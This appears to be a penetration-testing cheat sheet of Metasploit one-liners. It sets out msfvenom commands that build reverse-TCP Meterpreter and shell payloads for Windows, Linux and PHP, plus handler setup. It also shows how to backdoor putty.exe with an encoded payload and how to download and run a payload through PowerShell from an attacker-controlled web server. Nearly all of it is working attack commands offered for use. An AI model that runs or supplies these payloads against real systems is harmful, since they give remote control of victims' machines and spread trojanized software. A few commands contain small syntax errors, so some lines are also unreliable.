 Create payload and listener "One Liners"
------------------------------------------------
```bash
# Windows
msfvenom -p windows/meterpreter/reverse_tcp LHOST=xxx.xxx.xxx.xxx LPORT=443 -f exe > ./reverse3.exe
msfconsole -x "use exploit/multi/handler; set payload windows/meterpreter/reverse_tcp; set LHOST xxx.xxx.xxx.xxx; set PORT 1234; run"
# Linux
msfvenom -a x86 --platform linux -p linux/x86/shell/reverse_tcp LHOST=xxx.xxx.xxx.xxx LPORT=4444 -b "\x00" -f elf -o new-shell
msfconsole -q -x "use exploit/multi/handler;set PAYLOAD linux/x86/shell/reverse_tcp; set LHOST xxx.xxx.xxx.xxx; set LPORT 4444; run; exit -y"

msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=xxx.xxx.xxx.xxx LPORT=1234 -f elf > ./shell.elf
msfconsole -x "use exploit/multi/handler; set payload linux/x86/meterpreter_reverse_tcp; set LHOST xxx.xxx.xxx.xxx; set PORT 1234; run"
# PHP
msfconsole -x "use exploit/multi/handler; set PAYLOAD php/meterpreter/reverse_tcp; set LHOST xxx.xxx.xxx.xxx; set PORT 1234; run"
```

Start meterpreter listener for a Windows payload
------------------------------------------------
```bash
# Create Payload
msfvenom -p windows/meterpreter/reverse_tcp LHOST=xxx.xxx.xxx.xxx LPORT=443 -f exe > ./reverse3.exe
# Start Listener
use exploit/multi/handler 
set PAYLOAD windows/meterpreter/reverse_tcp 
set LHOST xxx.xxx.xxx.xxx
set LPORT 443
exploit
```

Backdoor a Windows Feedback Executable
------------------------------
```bash
msfvenom -a x86 --platform windows -x putty.exe -k -p windows/meterpreter/reverse_tcp lport= 4444 lhost=xxx.xxx.xxx.xxx -e x86/shikata_ga_nai -i 3 -b "\x00" -f exe -o puttyX.exe
```
Generate Payload -> powershell to download -> execute 
--------------------------------------------------------------------
```bash
# Generate payload
msfvenom -p windows/meterpreter/reverse_tcp LHOST=xxx.xxx.xxx.xxx LPORT=7777 -f exe > ./reverse3.exe
# Start Webserver to download
php -S <locahost-ip-address>:80
# Start listener
use exploit/multi/handler 
set PAYLOAD windows/meterpreter/reverse_tcp 
set LHOST xxx.xxx.xxx.xxx
set LPORT 7777
exploit
# Use PowerShell to download payload
powershell Invoke-WebRequest http://xxx.xxx.xxx.xxx:80/reverse3.exe -O 'C:\path\where\you\can\create\files\reverse3.exe'
# Execute payload (try different quotes as needed)
"C:\path\where\you\can\create\files\reverse3.exe"
```

